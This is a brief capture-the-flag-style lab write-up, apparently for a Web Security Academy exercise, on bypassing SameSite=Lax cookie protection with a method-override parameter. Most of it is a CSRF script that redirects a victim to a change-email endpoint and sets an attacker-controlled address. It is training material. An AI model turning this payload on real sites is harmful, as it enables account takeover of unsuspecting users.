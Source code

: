 If the website use `Lax` for `SameSite` parameter, you solely send `GET` method in the request. But we can bypass it by using `_method` to override the method. 

```
<script>
    document.location = "https://0a5b0073040c828c809f039100da0025.web-security-academy.net/my-account/change-email?email=pwned@web-security-academy.net&_method=POST";
</script>
```